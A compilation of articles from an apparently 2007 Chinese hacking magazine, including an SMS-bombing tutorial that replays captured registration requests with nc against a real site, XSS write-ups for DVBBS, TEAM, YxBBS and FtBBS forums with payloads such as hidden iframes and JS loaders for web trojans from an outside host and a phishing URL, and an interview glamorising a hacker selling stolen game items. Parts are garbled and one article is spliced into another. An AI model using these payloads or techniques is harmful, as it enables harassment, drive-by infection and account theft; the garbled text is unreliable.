一次正常的刷卡过程是这样的：点菜→刷卡→工作人员扣取金额→完毕，那么计算机数据库中是这样操作的：从 M 数据库中调出数据 N，然后由工作人员操作（修改）数据 N，最后提交到数据库 M 中（修改数据 N，就是去数据库 M 中，寻找原来的数据 N，然后覆盖）。很正常的一次操作，但如果同时2人呢？从 M 数据库中，A 和 B 两个窗口调出同一个数据 N，然后由工作人员操作修改，那么它不会正常地再次打入你的图纸中？根据网上发现：做的“意外”，没有正常打印！

下面是我分析出的为什么在 A、B 两个窗口可能会出现 N，经过修改交互不能正常地生成到数据库里的原因：如果同时在不同的窗口，则出现两个一样的数据，那么修改其中任意一个后，最后数据库中的数据发生了更改，都是某一局同口上显示的内容，通常的内容则会中转或是作修改（这是因为 N 已到复制完成），所以 B 窗口中修改的 A 数据，仍然是系统在输入并改变为没有自动刷新功能的，那么修改第一个数据后，提交上去，这个数据就变成回去找，对数据库而言则只是第二个数据提交的内容，因为我们主要修改了数据，而系统作为完成数据而被关注。

晚饭，我拉着好友，直奔食堂，经过一“密修”的一顿愉快过后，再向学校反应潮闹的存在……

## 编写点评：

很有意思的一篇文章，让小虫越来越来中时中时符合社会生活的一个程序，不过修改没有作者那般叫词了。这么两页这篇文章的花费的负载力度，的确是有点过时的时候意义！耳朵来不及文章的讨论与评价，一个不喜欢这篇文章的影响在这里的作者；作者在发觉进行“美丽”的思路后，所贯穿是现在的风格的主题。虽然只是一般的作者，但如果你看到的这部文章所产生的几个问题，仍然会值得我们学习。

图 popdog1412

## 从本文中你可以学到：
- 如何手工实现一个短信端炸工具

前些日子偶发表决定到收到垃圾短信和陌名的手机电话，搞得很恐慌，连手机都不敢开了，这年头在这男女比例严重失调的时代上做漂亮的“女孩子真难！”找到了个，偶然想了个办法用垃圾短信进行回击！

在百度上查找了“手机注册”的字样，发现N多的网站都能支持手机注册，需要注意的是用手机注册的时候要批要用要响应花样验证的内容，包括一个手机注册的页面，既便可以在填写一个手机注册的页面，比如1.如果它能找到注册的页面，并且这个页面发到数据库里，当然信息被

接着打开 WinSock Expert 进行抓包分析，点开 WinSock Expert 工具栏上的打开按钮，然后会出现对话框，选择要监听的进程并点击左边的“+”，将其展开选择好监视窗体的标题，选择好后点击右下角的“open”按钮，如图2。

再解释一下此处理中的命令的作用：Goto命令为跳转到指定标签，找到标签后，程序将处理从一个子开始的命令，Goto命令就达到了缩行的作用，NC 的 -w 参数是统计 timeout 的时间，photo.monternet.com 为那个彩信网站地址。80 为提交的端口，1.txt 是我们刚才抓取的数据文件。上面的批处理意思就是将提交1.txt中的内容到 photo.monternet.com，双击运行1.bat我们就会。

我简单的解释下，此处的 phone 赋值给的是网址在输入的验证码的手机号，此处读者可以灵活更改，把数据全部复制，保存为1.txt文本文件，然后我们需要循环去提交联系器这里处理去修改1.txt中的内容到 photo.monternet.com，双击运行1.bat我们

# 快速把 IIS 打造为 PHP 服务器

本文中你可以学到：如何使用 IIS 搭建 php 环境

大家好！我是小罗！最近有些朋友出于工作和学习的需要，想拥有一个 PHP 程序的测试和运行环境，下面我来教大家简单快速利用 IIS 打造 PHP 服务器。

## 一、前期准备

首先我已经假设大家都已经安装了 IIS，没有的朋友可以用 Windows 的安装光盘去安装，这里就不再说了。然后我们需要一个 PHP 的编译和执行程序：PHP 4.4.4，它已经收录在光盘里面了。首先将 PHP 4.4.4 解压缩到 C 盘的 phpserver 文件夹中，如图1。

## 二、修改配置文件

首先我们需要编辑 C:\phpserver 文件夹下的 php.ini-dist 文件。用记事本打开 php.ini-dist，搜索查找：extension_dir = "./"，如图2。将它修改为 extension_dir = C:\phpserver，然后将 php.ini-dist 文件另存为到 C:\windows\system32 下，并重命名为 php.ini，如图3。

## 三、配置 PHP 服务器

最后只要在 IIS 中进行一些配置，PHP 服务器就可以使用了。打开“控制面板”——“管理工具”——“Internet 信息服务”，弹出了……

“Internet 信息服务”窗口。右击“默认 web 站点”，选择“属性”，在弹出的“默认 web 站点属性”对话框中选择“ISAPI 筛选器”选项卡。点击“添加”按钮，在“筛选器名称”中输入“ PHP ”，在“可执行文件”中输入 C:\phpserver\sapi\php4isapi.dll，如图4。

再切换到“主目录”选项卡，单击“配置”按钮，在弹出的“应用程序配置”对话框中点“添加”。在“可执行文件”中输入 C:\phpserver\sapi\php4isapi.dll，“扩展名”为 .PHP，如图5。

再点“文档”选项卡，设置站点主页文件名为“index.php”，如图6。然后在“主目录”选项卡中设置好网站路径就可以了。最后依次点“应用”和“确定”就可以使用这个 php 服务器了！

## 四、测试 PHP 服务器

下面我把 PHP 的一个站点文件复制到网站根目录下，然后在 IE 浏览器中输入 http://localhost，如图7。看到了吧，已经可以正常浏览了！呵呵，文章就到这里！

[文章中涉及的工具 php 4.4.4 及相关在动画光盘中有收录]

> **编辑点评：**
一般情况下大部分朋友的 php 环境都是在 apache 的基础上搭建起来的，相对来说使用 iis 搭建 php 服务器的就比较少了。iis 有很多地方不如 apache，但它（包括微软的很多产品）很容易被初级用户接受，微软的风格就是可视和易懂，因此使用 iis 搭建 php 环境的步骤相对来说要更容易记住吧！想学习 php 下 sql 注入的朋友，可以尝试一下这种新的搭建 php 环境的方法了。

> 本文介绍的软件是作者自己写的，软件的功能较多，也反映了作者的相关技术知识储备丰富。我们鼓励更多的原创作者来非安全展示自己的作品，展示自己的才华。

# 防 ARP 欺骗的免费绿色软件 —— AntiARP-DNS [NoHack 专版]

图 Jiajia [Yulv]

- 从本文中你可以学到：
- AntiARP-DNS 的使用

## 前言

记得是上学期，学校的网络不知什么时候开始就很不稳定了，在宿舍上网一会能访问网页，一会不行，更严重的是上什么网页杀毒软件都提示有 ANI 病毒。这样的状况不用说都知道是被 ARP 攻击了，整个校园网络被搞得乱七八糟的。ARP 病毒是通过伪造 IP 地址和 MAC 地址实现 ARP 欺骗，导致数据包不能发到正确的 MAC 地址上去，会在网络中产生大量的 ARP 通信量使网络阻塞，从而导致网络无法进行正常的通信。虽然学校网络中心的工作人员给我们学生提供了相关的 ARP 病毒专杀工具和一些防御 ARP 攻击的软件，但是仍然不是很奏效。所以自己写了一款软件来抵御学校的复杂网络，这就是今天要给大家介绍的 AntiARP-DNS。（注：此类工具网上也比较多，大家可以看效果来决定使用的权利。）

> **小知识：什么是 ARP 协议**
ARP 协议是 “Address Resolution Protocol”（地址解析协议）的缩写。在局域网中，网络实际传输的是“帧”，帧里面是有目标主机的 MAC 地址的。在以太网中，一个主机要和另一个主机进行直接通信，必须要知道目标主机的 MAC 地址。但这个目标 MAC 地址是如何获得的呢？它就是通过地址解析协议获得的。所谓“地址解析”就是主机在发送帧前将目标 IP 地址转换成目标 MAC 地址的过程。ARP 协议的基本功能就是通过目标设备的 IP 地址，查询目标设备的 MAC 地址，以保证通信的顺利进行。

# 介绍

它在我们校园网络的效果的确很不错；下面我就来给大家介绍一下 AntiARP-DNS 吧，软件界面如图1。

在【数据信息】页面，点击“状态”这个按钮可以得到网卡相关信息和 ARP 绑定情况，跟 CMD 命令行下的 ipconfig /all 加上 arp -a 得到的信息是差不多的。右上角还显示了发送和接收的数据量，当你在访问网页的时候，或者下载东西的时候，截东西的时候...如果数据量变化很小，说明网络堵塞就有可能是被 ARP 攻击，这时你可以再用 ping 网关看看延时，如图 2。


如图 3，【攻击源列】页面是记录在点击“启动”按钮之后，在监控过程中发现 ARP 攻击者的 IP 以及伪装的 MAC。软件刚开始监控的时候会检测访问网页是否正常，如果被 ARP 欺骗 80 端口挂马便会出现图 3 中的提示，这时候建议使用软件左下角的“强制访问”这个功能，它能有效防止此类状况。


在【历史记录】页面是相关的监控记录，监控记录可以修改，修改完后点击“存”按钮即可。同时还配备了一个查询单个 IP 对应的真实 MAC 的小功能，方便需要时使用。如图 4。


AntiARP-DNS 要怎么设置才适合自己所在的网络环境呢？这个是很多网友经常问我的问题，那么接下来我就详细说说本软件的设置问题吧。如图 5，首先是设置网关 IP-MAC 绑定，一般情况下选择“自定网关”就可以了，如果点击“重新取得网关”还是无法取得正确网关 IP 的话请手工填写。

如果你在局域网内只上外部网或者玩网络游戏，那么可以选择“自拟绑定”+“单个”。当你经常与局域网内某些机器通信的时候，建议去掉“单个”选项，并点击“设”按钮来设置多个绑定，如图 6。


监控间隔时间根据自己所在的网络环境来确定，如果你所在的网络被攻击得很严重的话则可以调快一点。如果您被 ARP 攻击时会产生 IP 冲突的对话框，那么请勾上“禁止系统 IP 冲突提示”。下来是“攻击提示”是为了有些用户的需要，我个人觉得没有太大用处。


“检测到攻击后执行动作”这个选项是通过批处理来执行的，文件在软件目录下的 plug\run.bat，点击“设”即可编辑该批处理文件（这个就得大家写咯，嘿嘿）。内存不是很大的用户可以勾上“定时释放内存”，它可以把空闲内存转化为可用内存。对于开机自动运行本软件我做了两种模式：一种是注册表的方式，它适合普通单机用户；另一种是系统服务的方式，它适合服务器后台 SYSTEM 运作。剩下的选项基本一看就明白，就不需要我废话了。

最后一个页面【扩展选项】，在左边是我收集的一些常见恶意 ARP 挂马的站点做了屏蔽，还有一些常上的站点做了卸载功能，主要是为了防止 DNS 欺骗，大家可以自行修改。左边是一些系统策略相关的批处理调用，文件在 plug 目录下，如图 7。


到此 AntiARP-DNS 就介绍完了，该软件目录下还附带了一个 IP-MacScan.exe，是用来批量扫描 IP 对应的 MAC 的辅助工具，如图 8。


# 写在最后

希望我的软件能给有需要的朋友带来帮助，如果大家有什么疑问、想法或者发现 Bug 都可以到 NoHack 的 BBS (http://www.NoHack.Cn/bbs) 或我的 Web (Http://Www.YuLv.Net) 上留言，我会尽力为大家解答并及时更新本软件，我的 ID 是 JiaJia。

[文章中涉及到的工具在光盘中有收录]

## 编辑点评

首先佩服作者的编程功力，其次佩服作者毛遂自荐的勇气，这是手册第二次有作者推荐自己的作品了，鼓励鼓励！“ARP 攻击”由来已久，在局域网中危害尤大，却一直没有根本的解决办法，用户一直都是使用类似的 ARP 防火墙软件做被动防御。作者的这款 AntiARP-DNS 为用户想的很多，但是要求使用者有一些技术基础，这样才会发挥它的最大威力。希望大家能积极试用这款软件，发现它的不足，提出宝贵意见，以使作者不断完善它，为大家更好的服务。


# 敬告我的黑客男友

爱恋恋

> XApache: 随着一个多月前的奥运会门票第一阶段销售完毕，北京奥组委的第二阶段门票销售计划又启动了，看着身边几个定到开幕式门票的同事喜滋滋的样子，不由得好生羡慕，于是决定去单位附近的中国银行看看有没有机会定到，拿到排号单发现前面居然有一百五十多个人在等待。一百五十个人哪！而且还只有两个窗口在办理业务。小婉我心里哇凉哇凉的，硬着头皮等了一个多小时，带在身上的青年文摘和黑客手册都看完了，发现前面还有一百多…………于是放弃，回来认真地码稿子。我们的土豆GG要是看到文章里出现错别字的话，可是会如同狼人看到十五的月亮哦。

亲爱的文文：

你已经离家未归七天了，最后摔门而去的动作很潇洒，但是没什么力道，我想可能是因为以前买的哑铃和拉力器都被你送给兄弟的原因，害你自己没的锻炼。所以，我从你的好兄弟培杰和小峰那里把健身器材都拿回来了，虽然他们不是很高兴，但是我一想到以后你自己可以好好锻炼身体，感觉还是很欣慰的。

你去年在我过生日的时候说要送个项链给我，但一直没有送；我问你的时候，你总说没时间去选，或者没攒够钱。在这里我想告诉你，我已经把你的信用卡找到了，密码和你的 QQ 密码一样，可以超支的金额虽然只有六千元人民币，但是买个项链还是够的。我已经在王府井看好了一条，准备这个周末去买回来，你以前的愿望就可以实现了。我不知道你的承诺记的那么熟悉，你是不是感到很高兴呢？呵呵，只是不知道你还记不记得我的生日是哪天哦。

昨天自称是你小妹的两个姑娘到我们住处来找你了，可能她们以为你在家的吧。一个叫芳芳，一个叫甜甜，都打扮的花枝招展的，还问我你平时最喜欢吃什么，能不能让你尝尝她们亲手做的滑蛋牛肉饭。我想到你平时对我说，男人要以事业为重，不可以整天和女孩子混在一起。所以我毅然拒绝了她们的请求，她们居然还以为我是你的姐姐，对此我表示了克制，因为你以前说过女人要温柔一点，所以我没有像以前那样直接把人家骂走，而是把我们养的旺财放出来送客，不过那两个女孩好像不是很喜欢狗哦，看到旺财对她们乱吼的时候居然连再见都没说一声就尖叫着逃走了。

另外，我在你的电脑里找到好多肉鸡列表，一想到以前你在论坛上认识的那么多小弟弟小妹妹都没有肉鸡，而你平时又不怎么用，我当下就发了善心，把你的肉鸡列表公布出去了，不过你还真厉害呢，找了那么多肉鸡，我做了五个 Excel 列表，每一个千多台，用了一周的时间才发完，大家反响很热烈呢，都说我是黑客界中最豪爽最慷慨的女侠，有很多男的还给我发来了自己的照片，我选了几个比较帅的，答应代你收他们为徒，我给他们留地址了，这个周末可能会到我们家来玩吧。

还有，你上次入侵的那个游戏网站，我已经把漏洞通知他们公司的工作人员了，顺便把你留下的 Shell 木马程序也给删除了。好像那个网站是你花了几个月的时间才成功进入的吧。这下好了，漏洞已经修补，谁也进不去了，我帮你雪中送炭做好事，你要怎么感谢我呢？

今天下午和几个朋友约好一起玩游戏，发现你去年买的 DELL 笔记本电脑不是很好用了，运行“魔兽世界”特效全开的时候好卡，速度也很慢，才 Intel 酷睿双核 1.6G 的 CPU，512M 内存，120G 硬盘。这怎么够够呢？所以我准备趁在国庆节的时候把它拿到中关村当旧电脑折价卖了，一个笑容很灿烂的大叔已经和我联系好愿意出 1000 块的高价买下来。我想你一定会同意的吧？

好了，不多说了。我代你收的那几个帅帅的徒弟等下就要过来了，我得出去迎接他们了。你这个礼拜应该会回来的吧，要提前给我发短信号，可不许像上次那样不发短信，也不接我的电话。

你永远的 爱恋恋  
2007 年 9 月 25 日

> **编辑点评：**
看到这篇文章，突然想起某个大学女生给她男朋友写的道歉信。不过《敬告我的黑客男友》这篇文章很适合各位黑客 GG 阅读，说不定你们以后就会遇到这样类似的问愿呢！现在的女孩可是越来越不得了（看过九月份女子黑客小组采访记的读者应该印象更深刻吧！）。咱们能怎么办呢？练好身体，学好技术，看好自己的 MM 吧！

# 惊爆 黑色产业人员 采访


Hack 经济产业链，暗涌在网络暗面的黑色经济圈。这根链条看不见、摸不着，如同狂蟒之灾 2 里面的巨蟒一样，隐秘地穿梭在水里移动的人群中，最后掉队的家伙会被巨蟒迅猛残忍地猎杀。这就如同中马的肉鸡，其命运已经被黑色产业链中操控技术的人所掌控，肉鸡的地位如同金字塔中最底层的奴隶，默默地地为金字塔的上层服务。

这次偶遇了一个从事黑色产业的非著名黑客，他年纪轻轻，有着高深莫测的黑客技术，从事黑色产业事业！他现实里是一家软件公司的程序员，到了网上就化身为传奇黑客。L，一个默默无闻的黑色产业从业者。本期采访，就让小迷我带领大家走近 L，拨开黑色产业的面纱，了解黑色产业的真实内幕。

**NoHack：** 你好，作为从事黑色产业的你，能否先简单的介绍一下自己？

**L：** 大家好，由于职业的原因，真实的姓名和网络 ID 就不公布了，我姓刘，网上大家都称呼我为 L。

**NoHack：** 看来从事黑色产业这个人对于自己的身份都是保密的，能否透露下到底有多少人知道你的真实身份呢？

**L：** 其实对自己身份的保密也是对自己安全的一个保障，毕竟从事这个行业有一定的“危险”。至于我的真实身份没有人知道，包括父母、女朋友和一些现实里的朋友。因为我不想让他们担心。

**NoHack：** 网络上你从事的是黑色产业，在现实里你从事什么职业？

**L：** 在现实里我是一家软件公司的程序员，公司规模不算很大，但是待遇还算不错。

**NoHack：** 你从事黑色产业有多长时间了？从什么时候开始接触这个领域的？

**L：** 接触的时间比较早吧，那时候家里有电脑，用的是 98 的系统。不过还是经常去网吧，因为那里是最好的“作案”地点，那时的人们对于网络安全也不是那么的在意。

**NoHack：** 当初是什么原因让你走入这个领域的？又是什么原因让你一直坚持到现在？

**L：** 我算接触电脑比较早的，也是在无意间看见一个黑客网站，当时就被里面的内容吸引了。然后就慢慢的摸索，一点点的实践。后来在国外的一个交易网站发现，一些东西能够卖钱，比如一些游戏的网络装备等……那时父母给我的零花钱也不是很多，就走上了这条路。

**NoHack：** 你的第一笔单是什么？赚了多少钱？

**L：** 我的第一笔单是渗透某个网站，然后挂梦幻的木马。那时的梦幻游戏非常的火，单单那个网站的权限就卖了 1000RMB，那时的 1000RMB 对于我来说是笔不小的数目，后来靠卖信也赚了不少的钱，当时真的很激动。

# DVBBS 另类跨站漏洞

图 / 幻象 / 恶鬼夜行 【O.F.S】

> 栏首语：
刚刚过完暑假，马上又迎来了国庆节，还记得当时读书的时候是多么的逍遥自在。尤其是放假的时候，拿本《黑客手册》，带一壶水，再背一个吊床，自然还少不了心爱的音乐，在学校的后山里面找一个风景好的地方，挑个角度，再找棵结实的树把吊床吊上去，看着书，听听音乐，再瞧瞧远处漂亮的风景，真是惬意呀。
毕业后，身不由己，闲暇的时间屈指可数，很多计划都会搁浅，何时才能重新提上日程，希望相当渺茫呀。小编在这里对还在学校，还能掌握自己时间的人说，有什么计划，趁着现在有时间，赶紧去干吧！

- 从本文你可以学到：
- DVBBS另类跨站漏洞分析
- 跨站的利用思路

大家好，我们是溢雪【O.F.S】的幻泉和恶鬼夜行，今天我们给大家带来一个DVBBS的另一种跨站方法。看到脚本小组发的dv跨站漏洞感觉挺郁闷的，都被人抢了头机。作为中国研制开发的论坛产品的主力军之一，对他虎视耽耽的人还是不少，大家都觊觎他能爆出什么好宝贝，哈哈，果然爆出了跨站漏洞，心情真是那个爽啊。

好了，不说废话了，看到他们都发现了跨站，感觉dv在跨站这方面做的还是不行，所以自己也来下载源码看看能不能捡漏。

还真让我捡到了，看来狗屎运还不是他一个人走，这个漏洞按理来说不应该是DVBBS的，但是也是归属于他的副产品之一，是一个他们推出的论坛博客系统 iBoker V1.0.0 版本，而 dv8.0 和 dv7.1 的都是默认的这个版本，如图1，图2。


由于官方没有 blog 系统，所以不能在官方做测试，只有把程序下到本机，自己搭建测试环境，在本地搭建的 DVBBS8.0 和 DVBBS7.1 都测试通过，说明漏洞存在于这两个版本，之前的版本是否有问题还未做测试，如果大家喜欢或是爱好跨站攻击方面的知识，可以自己测试一下。


好了，现在我们开始 DVBBS 的跨站之旅。

- 1、先注册一个会员，随便填写，如图3，图4，这是 DVBBS 7.1 和 DVBBS 8.0 不同的注册页面。
- 2、申请完毕以后，我们再来开通 blog 空间，如图5。
- 3、然后进入 blog 管理界面，如图6。
- 4、新建链接栏目，


NoHack：你认为从事黑色产业事业需要具备什么条件？
L：个人认为首先要有一定的技术水平！这是最重要的！脚本语言和汇编都要会，最好做到精通。善于发现和挖掘漏洞，最好具备较高的英语水平。毕竟一些漏洞的公告，在国外比国内要多很多。

NoHack：上面我们聊了那么多，对于黑色产业这个市场的形成，你有什么看法？
L：我个人认为这是必然的，并且逐步走向规模化、专业化。国外这方面发展已经比较成熟了，国内只是最近几年才开始形成，不过现在也小有规模。并且这是块肥沃的土地，只要有需求者，我们就有生存的空间。

NoHack：当你拿到一些网络的虚拟物品时，你怎么处理这些东西，是自己联系买家，还是委托别人？
L：一开始的时候，人生地不熟，一般都是自己联系买家。时间长了以后就有专门的人来联系你；而且有的要求长期合作等。

NoHack：对于黑色产业这个领域，究竟是谁给了它成长的空间？能否简单的说两句？
L：玩家。再好的装备，再多游戏币，如果没有购买者，那它们一文不值！能够让虚拟财产变成 RMB 的，不是别人，正是购买虚拟财产的玩家。

NoHack：通常那些购买虚拟财产的人以哪些人群为主？学生，白领还是……？
L：我接触的一般都是工作比较不错或者家里富有的人群，他们没有时间在游戏里自己去获取那些东西，然而又想比游戏里的人混得好，就会拿 RMB 来换取游戏里的虚拟物品，从而达到心里的一种平衡感，也可以说是在游戏里的优越感。

NoHack：在交易过程中，发现过黑吃黑的现象吗？
L：发生过，那时由于网络交易不像现在这么发达，所以被骗过。

NoHack：黑色产业在发展，那么交易的方式是否也在随着前者的发展而发展呢？

L：虽然说购买虚拟财产的玩家给予了黑色产业成长的温床，但是光有这些还是不够的。因为那时并没有像 taobao、5173 等网络中介来完成交易，只能2个人约定当面交易，这样就对交易的范围有了一定的局限性。不像现在这样，好的东西能够通过一些网络中介卖到全国各地。

NoHack：目前在黑色产业圈内比较火的是什么游戏？
L：这个不好说，毕竟一个游戏都有一个游戏的寿命，有的十年，有的也许一个月。我们首先就是会在网上搜集下资料，然后再确定目标。

NoHack：现在一些游戏厂商推出了一些保护措施，比如密保卡、手机、IP 绑定等功能……对于你们来说无疑增加了难度吧？
L：确实有一定的难度，毕竟那些东西都是随机的，就算我们得到账号和密码也一样登录不进去，不过大多数的玩家还是不会在意，所以这类的情况不是很多见。

NoHack：对于以后的发展你自己有什么看法？
L：暂时没什么想法，就是继续学习，提高自己的技术水平，多挖点 0day 出来！哈哈！

NoHack：在采访的最后，对于黑色产业以后的发展你有什么看法？
L：黑色产业至少在短时间内不可能“灭亡”！因为它有成长的温床！现在国家对于这方面的法律条文也有了一定的法规，黑色产业的以后会是什么样，我确实下不了定论。

NoHack：L，非常感谢你能接受这次采访，有机会找你吃饭，我请客。
L：没问题。

NoHack：你把钱付了就行了！
L：_—！！

后记：
谁都无法预料黑色产业以后的路……让我们拭目以待吧！

如图 7。

5. 填写完毕后，提交栏目设置出现发表的一个网页，如图 8。


图 5 开通 blog


图 6 blog 管理

好了，看到图 8 中“链接图片”的内容里写了什么吧？对了，就是跨站语句（这个跨站语句就不用我解释了吧，如果大家是新手的话可以询问百度大哥，搜索一下关于跨站的知识，收获肯定不少），["><script>alert('huanquan')</script> 0 Then
SqlStr = " and T.CatID=" & cat_id
End If
'字段排序 TopicID=0, CatID=1, sCatID=2, UserID=3, UserName=4, Title=5, TitleNote=6, PostTime=7, Child=8, Hits=9, IsView=10, IsLock=11, sType=12, LastPostTime=13, IsBest=14, S_Key=15, Weather=16
Sql = "Select T.TopicID, T.CatID, T.sCatID, T.UserID, T.UserName, T.Title, T.TitleNote, T.PostTime, T.Child, T.Hits, T.IsView, T.IsLock, T.sType, T.LastPostTime, T.IsBest, T.S_Key, T.Weather, P.PostID From Dv_Boke_Topic T Inner Join [Dv_Boke_Post] P on P.RootID = T.TopicID where P.ParentID=0 and T.sType=" & cat_tid & " " & SqlStr & " and T.UserID=" & DvBoke.BokeUserID
If DvBoke.IsBokeOwner Then
Sql = Sql & " order by T.LastPostTime Desc"
Else
Sql = Sql & " and T.IsLock < 3 order by T.LastPostTime Desc"
End If
```

在这里我们看到，也没做任何过滤就出库了，跨站就产生了！

这只是做个测试之用，如果大家手上有网马的话，可以构造一个网页木马框架，格式如下，或者 js 调用，代码如下：

- 网页框架

<iframe src=http://www.test.com/test.html width=100 height=0 frameborder=0></iframe>

- Js 调用

```javascript
document.writeln("<!DOCTYPE HTML PUBLIC \"-//W3C//DTD HTML 4.0 Transitional//EN\">");
document.writeln("<HTML><HEAD>");
document.writeln("<META http-equiv=Content-Type content=\"text/html; charset=big5\">");
document.writeln("<META content=\"MSHTML 6.00.2900.3059\" name=GENERATOR></HEAD>");
document.writeln("<BODY>");
document.writeln("<DIV style=\"CURSOR: url(\'http://www.test.com/v1.jpg\')\">");
document.writeln("<DIV>");
document.writeln("style=\"CURSOR: url(\'http://www.test.com/v2.jpg\')\"> </DIV></DIV></BODY></HTML>")
```

将以上代码保存为test.js，然后调用: <script src="http://www.test.com/test.js"></script>

其实还有其他的利用方法，比如让对方退出，那么就输入 ["><iframe src=http://对方bbs/logout.asp></iframe> 编辑点评：
由于学生朋友放假在家，很多人有了时间读代码、找漏洞，于是乎最近很多漏洞被暴露出来，也搞得网上沸沸扬扬的；本文介绍了 DVBBs 的跨站漏洞，说实在话，这个漏洞还是比较明显的，只要细心些，很多看似安全的地方其实并不安全。

## 二. 再次研究

### a. Team 论坛资料跨站及 URL 参数跨站

没了头像，我们来看看其他资料的地方，先看修改资料的 update 部分：

```asp
team.execute("Update ["&IsForum&"User] Set Userhome='"&HRF(1, 1, "userhome")&"',Userface='"&Fixjs(HRF(1, 1, "urlavatar"))&"',UserCity='"&HRF(1, 1, "usercity")&"',Usersex='"&HRF(1, 2, "usersex")&"',Honor='"&HRF(1, 1, "honor")&"',Birthday='"&Brithday&"',Sign='"&TSign&"',UserInfo='"&HRF(1, -1, "qq")&"|"&HRF(1, 1, "icq")&"|"&HRF(1, 1, "yahoo")&"|"&HRF(1, 1, "msn")&"|"&HRF(1, 1, "taobao")&"|"&HRF(1, 1, "alipay")&"' where ID="&team.TK_UserID)
```

所有的变量都用 HRF 过滤掉了，修改这条路我们走不通了，但是，注册时候是这样的吗？我们看看注册的 UPDATE 部分：

```asp
team.Execute("insert into ["&IsForum&"User] (UserName, Userpass, UserGroupID, Members, Levelname, RegIP, Usermail, Userhome, UserCity, Question, Answer, Birthday, UserSex, Newmessage, Posttopic, Postrevert, Deltopic, Goodtopic, Regtime, Lastntime, Postblog, UserInfo, Extcredits0, Extcredits1, Extcredits2, Extcredits3, Extcredits4, Extcredits5, Extcredits6, Extcredits7, UserUp) values ('"&username&"','"&MD5(Password, 16)&"',"&UserGroupID&",'注册用户','"&Levelname&"','"&Remoteaddr&"','"&UserMail&"','"&HtmlEncode(Request.Form("site"))&"','"&HtmlEncode(Request.Form("usercity"))&"','"&Questionid&"','"&Answer&"','"&Mybirthday&"',"&CID(Request.Form("usersex"))&",0,0,0,0,0,0,'"&SqlNowString&"','"&SqlNowString&"',0,'"&UserInfo&"',"&Cid(Split(ExtCredits(0), ",")(2))&","&Cid(Split(ExtCredits(1), ",")(2))&","&Cid(Split(ExtCredits(2), ",")(2))&","&Cid(Split(ExtCredits(3), ",")(2))&","&Cid(Split(ExtCredits(4), ",")(2))&","&Cid(Split(ExtCredits(5), ",")(2))&","&Cid(Split(ExtCredits(6), ",")(2))&","&Cid(Split(ExtCredits(7), ",")(2))&",0|"&Now&"!")")
```

代码很多，大家眯起眼睛仔细看，有个变量 UserInfo，我们往上看，这个 UserInfo 是哪里来的：

```asp
UserInfo = team.Checkstr(Request.Form("qq") &"|"& Request.Form("icq") &"|"& Request.Form("yahoo") &"|"& Request.Form("msn") &"|"& Request.Form("taobao") &"|"& Request.Form("alipay"))
```

哈哈，没用 HRF 函数来过滤哦，一个 checkstr 是用来过滤单引号和符号“|”的，然后直接这样就写进数据库了，OK，直奔官方网站去测试咯。注册一个用户 xsstest，打开高级用户设置选项，经过测试别在 QQ 一栏填写内容，因为显示的时候会有其他 HTML 代码干扰。我们就在 MSN 上写 <script>alert('Sniperhg又来跨站咯，小心哦')</script>，成功后返回主页，进自己的资料，OK，顺利弹出，如图 1。


我们继续，在访问某个文件后出错后会直接跳转到 error.asp 文件，参数是 message，后面我们直接写上 <script>alert('Sniperhg又来跨站，小心哦')</script>，哈哈，如图 2，弹出框了。

除了这个，还有一个文件 club.asp, 参数也是 message, 如图 3。


也许大家会说，跨站漏洞大动静，有什么用途？告诉你，用来钓鱼不错，在论坛发个帖，然后在那装无辜。管理员？怎么啦，怎么有个错误提示啊？然后给个 http://www.team5.cn/club.asp?Message=<iframe src=ck.asp width=0 height=0></iframe>，当然我们可以把后面那个 iframe 用 URL 编码一下，编码后就变成了%3Ciframe%20src%2Dck%2Easp%2Bwidth%3D0%2Bheight%2B3D0%3E%3C%2Fiframe%3E，小小迷惑一下，眼神好的人是不会上当的。好了，关于 TEAM 的我们就过去了，漏洞我还是告诉一下管理员，因为 TEAM 的管理员还是比较客气的。


### b. YxBBS 2.2 新鲜头像跨站

阅读 usersetup.asp 代码:

```vb
Mail=YxBBS.Fun.GetStr("Mail")
    If Mail="" Then YxBBS.Error("E-Mail 地址不能为空！")
    Mail=server.HTMLEncode(Mail)
    If Not YxBBS.Fun.IsValidEmail(Mail) Then YxBBS.Error("请填写有效的 E-Mail 地址！")
    PicUrl=YxBBS.Fun.ubbg(YxBBS.Fun.GetStr("PicUrl"))
    ... 节约版面... 省略代码 ...
    IsQqPic=YxBBS.Fun.GetStr("IsQqPic")
    If IsQqPic<>"1" Then IsQqPic="0"
    Sign=Left(YxBBS.Fun.HtmlCode(YxBBS.Fun.GetStr("Sign")),255)
    PicH=YxBBS.Fun.GetStr("PicH")
    PicW=YxBBS.Fun.GetStr("PicW")
    If PicUrl<>"" then
                PicUrl="headpic/" & HeadPic & ".gif"
                PicW= BBSSetting(16)
                PicH= BBSSetting(17)
End If
```

这里我看上的是 PicUrl 变量，有个 ubbg，我没找到这个函数，但是测试发现是用来过滤字符的，script 被过滤了。本来我准备是在注册的时候写进去的，结果注册文件用的是 PicUrl=YxBBS.Fun.HtmlCode(YxBBS.Fun.GetStr("PicUrl"))，是 htmlcode 函数，没法。但是修改资料的时候却用的 ubbg，虽然过滤了 script，但我们还是可以利用的。我们在头像处写 "java script:alert(/Sniperhg又来跨站咯，小心哦/)"，注意，包含双引号，因为显示的时候在 src 的后面，不用双引号闭合就无效了。还有，不能有单引号，因为被过滤了，这里我就用了 "/" 符号，注意有个很长的空格样的东西，那个是 TAB 键搞上去的。我在官方测试成功！如图 4。顺便提一下这个论坛一个不痛不痒的缺陷，银行功能里有个转账，可以转 0 元钱，转账成功后会跟对方发一个站内短信，如果我们无限发，在下能力有限，本来想写一个自动转账的小程序，但是...人太懒，算了(打我吧！嘎嘎)。


### c.飞天论坛 FtBBS 6.0 资料跨站

头像不能跨了，咱们就换个地方呗。来到资料修改处，“你的地址：”一栏等着我们哦，输入<script>alert(/Sniperhg又来跨站咯，小心哦/)</script>，再看自己的资料，HO HO HO~~

框框又出来了哦。官方测试成功略，如图 5，测试完后看代码：


```vb
password=request.form("password")
oldpwd=request.form("oldpwd")
clubuser_marriage=request.form("clubuser_marriage")
question=Checkstr(trim(request.form("question")))
signname=Checkstr(request.form("signname"))
email=Checkstr(trim(request.form("email")))
clubuser_address=Checkstr(trim(request.form("clubuser_address")))
url=request("url")

call CheckCharStr(password, 1)
call CheckCharStr(oldpwd, 1)
... 省略 ...
if (instr(request.form("signname"),rs_arrest("content"))<>0 or instr(request.form("name"),rs_arrest("content"))<>0) then
call ftbbs_msg("对不起, 所填内容中不能含有["&rs_arrest("content")&"]关键字!", "moduserinfo.asp")
end if
